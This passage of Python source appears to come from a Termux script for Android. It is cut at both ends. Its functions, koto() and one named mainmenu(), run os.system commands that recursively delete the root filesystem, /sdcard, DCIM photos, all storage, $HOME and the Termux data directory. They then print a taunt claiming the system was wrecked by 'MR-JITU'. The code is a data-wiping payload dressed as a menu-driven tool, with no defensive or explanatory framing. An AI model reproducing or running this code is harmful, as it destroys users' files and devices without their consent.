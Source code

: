     os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}')

    

def koto():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}')

    

def mainmenu():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

